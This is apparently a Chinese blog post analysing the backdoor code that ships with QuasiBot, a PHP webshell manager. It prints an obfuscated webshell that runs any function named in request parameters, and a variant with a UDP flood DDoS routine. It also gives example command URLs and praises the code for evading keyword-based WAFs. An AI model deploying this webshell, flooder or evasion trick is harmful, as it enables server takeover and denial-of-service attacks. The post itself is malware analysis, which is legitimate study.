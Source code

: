```yaml
---
layout: post
title: "批量Webshell管理工具QuasiBot之后门代码分析"
tags: [web,secrity]
---
```



## 一、前言
最近在想着写一款webshell批量管理工具，发现目前有一款开源的，由php编写的管理平台-``QuasiBot``。

项目地址：[https://github.com/Smaash/quasibot](https://github.com/Smaash/quasibot)

QuasiBot是一款php编写的webshell管理工具，可以对webshell进行远程批量管理。这个工具超越于普通的webshell管理是因为其还拥有安全扫描、漏洞利用测试等功能，可以利用大量的webshell进行高效的测试工作。

在本地使用QuasiBot的时候，发现它的内置后门代码非常不错，所以便有了此文。下面针对QuasiBot的两种后门代码进行剖析：``非DDoS``版 和``DDoS``版。

## 二、分析

### 1. 非DDoS版

首先给出``非DDoS``版本的后门代码：

{% highlight php%}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

格式化一下，显得比较清晰：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

首先来分析一下代码结果，QuasiBot的后门代码十分简单，由一个``if...elseif...``构成。

可以看到``elseif($_GET['___'])``直接运行从Get请求过来的参数``___``的函数。例如这里后门地址为：``http://www.virtual.com/ma.php``，那么构造如下请求就会让后门代码去执行``phpinfo()``函数来获取系统的相关信息。

    http://www.virtual.com/ma.php?___=phpinfo

然后再看第一个``if($_GET['_'])``部分，当有参数``__``传入时进入条件：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";
    $_=($_^"<").($_^">").($_^"/");
    ${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
}
...
?>
{% endhighlight %}

根据代码可以看出，QuasiBot将通过后门执行的输出都放到``response``的注释``<!-- ... -->``里去了，这里有一定的隐藏效果。注意这里``print "<!--".$_="{:|";``这里对 $_ 变量进行了赋值，然后是通过字符的异或运算连接起一个``"GET"``字符串：

    $_=($_^"<").($_^">").($_^"/");

``$_^"<"``会将 $_ 变量的第一个字符的ascii码与'<'的ascii码 进行异或，也就是``123``('{'的ascii码) 与``60``('<'的ascii码)进行异或：

    123^60 ==> 71 ('G')

得到ascii码``71``也就是字符``"G"``，通过相同方法构造出``"E"``和``"T"``，然后将其连接构成字符串``"GET"``。

然后根据php中的一个变量引用特性，以``${'_GET'}["__"]``作为参数调用函数``${'_GET'}["_"]()``。

这里的函数执行涉及到了php中``动态函数调用``和``花括号{}使用``的trcik。

[《常用PHP中花括号使用规则详解》](http://www.cnblogs.com/jayleke/archive/2011/11/08/2241609.html)这篇文章比较详细的讲了在php中``{}``使用时需要注意的地方。

给出一个简单易懂的例子说明一下``动态函数调用``，看下面这段代码``demo.php``：

{% highlight php %}
<?php
$func = "demo";
function demo() {
    echo "Demo on!"
}

$func();
?>
{% endhighlight %}

这里为了方便，直接在终端使用php执行该脚本文件，执行``php demo.php``得到输出``Demo on!``。

看了这个demo.php再结合``{}``的使用就很容易理解后门中的这段代码：``${'_GET'}["__"](${'_GET'}["_"])``。

写得明显点就是：``$_GET["_"]($_GET["__"])``。

简单明了的QuasiBot非DDoS后门代码：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--{:|";
    $_GET["_"]($_GET["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { 
    @$_GET['___'](); 
}
?>
{% endhighlight %}

例如在win下要执行``system('dir')``，后门url为：http://www.virtual.com/ma.php，那么请求：http://www.virtual.com/ma.php?_=system&__=dir

在返回页面的源码里，得到如下内容：

    <!--{:| 驱动器 D 中的卷没有标签。
     卷的序列号是 2EE6-3EE0

     D:\PhpStudy\WWW 的目录

    2014/12/03  21:05    <DIR>          .
    2014/12/03  21:05    <DIR>          ..
    2014/12/03  21:05    <DIR>          discuz
    2014/11/10  22:43    <DIR>          Documentation
    2014/11/22  02:13               431 function.php
    2014/12/04  17:37               226 ma.php
    2014/11/19  22:38    <DIR>          mybb
    2014/11/20  12:53    <DIR>          mybb1
    2014/10/21  17:11    <DIR>          phpMyAdmin
    2014/11/25  23:52    <DIR>          phpMyRecipes
    2014/11/25  14:59    <DIR>          phpok
    2014/11/15  11:36    <DIR>          piwigo
    2014/11/14  14:04    <DIR>          qibomenhu
    2014/11/26  08:55    <DIR>          quasibot
    2014/11/27  11:50    <DIR>          rocboss
    2014/11/21  00:25    <DIR>          sqli
    2014/11/14  15:59    <DIR>          thinksns
    2014/11/10  22:43    <DIR>          Tools
    2014/11/10  22:44    <DIR>          upload
    2014/12/03  19:36               256 upload.php
    2014/11/22  12:54    <DIR>          wordpress
                   3 个文件            913 字节
                  18 个目录 35,217,747,968 可用字节
    {:|7d9f82db8d7d8b1ed3fda323040e671a{:|WINNT{:|-->

命令成功执行，其他比较细节的分析这里就不在多说了，有兴趣的可以自行总结。

### 2. DDoS版

DDoS版后门代码如下（代码有点长）：

{% highlight php %}
<?php
if($_GET['_']) {
print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) { @$_GET['___'](); } elseif(isset($_POST['target'])&&isset($_POST['time'])){$fn0=0;$pm1=$_POST['time'];$yu2=time();$az3=$yu2+$pm1;$jd4=$_POST['target'];$kb5=gethostbyname($jd4);for($pt6=0;$pt6<65553;$pt6++){$yf7.='X';}while(1){$fn0++;if(time()>$az3){break;}$yw8=rand(1,65553);$vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);if($vl9){fwrite($vl9,$yf7);fclose($vl9);}}}elseif($_POST['kill']=='1'){exit(0);}
?>
{% endhighlight %}

格式化一下：

{% highlight php %}
<?php
if($_GET['_']) {
    print "<!--".$_="{:|";$_=($_^"<").($_^">").($_^"/");${'_'.$_}["_"](${'_'.$_}["__"]);
    print "{:|".md5("#666#".date("h:d"))."{:|".PHP_OS."{:|-->";
} elseif($_GET['___']) {
    @$_GET['___']();
} elseif(isset($_POST['target'])&&isset($_POST['time'])) { 
    $fn0=0;
    $pm1=$_POST['time'];
    $yu2=time();
    $az3=$yu2+$pm1;
    $jd4=$_POST['target'];
    $kb5=gethostbyname($jd4);
    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }
    while(1) {
        $fn0++;
        if(time()>$az3) {
            break;
        }
        $yw8=rand(1,65553);
        $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
        if($vl9) {
            fwrite($vl9,$yf7);
            fclose($vl9);
        }
    }
} elseif($_POST['kill']=='1') {
    exit(0);
}
?>
{% endhighlight %}

前面部分的参数判断这里就不讲解了，请参照``非DDoS版``的分析。直接看DDoS代码部分，这里通过``$_POST['target']``来获取目标，``$_POST['time']``为攻击持续的时间（这里以秒为单位）。 

接下来就是一系列的准备工作，构造``65553``字节的超长数据通过``udp``的方式向目标随机端口打流量（为哈要随机端口，没懂）。

构造``65553``字节的数据：

    for($pt6=0;$pt6<65553;$pt6++) {
        $yf7.='X';
    }

随机生成端口号（最大不应该是65535？）：

    $yw8=rand(1,65553);

创建socket并发送数据：

    $vl9=fsockopen('udp://'.$kb5,$yw8,$ic10,$yf11,5);
    if($vl9) {
        fwrite($vl9,$yf7);
        fclose($vl9);
    }

至此``QuasiBot``两种模式的后面简单剖析完毕。值得学习的是该后门对php特性的运用，整个后门代码（``非DDoS版``）没有出现任何较敏感的关键字，能绕过大多数通过关键字检测的waf（未验证，目测。不要拍砖）。
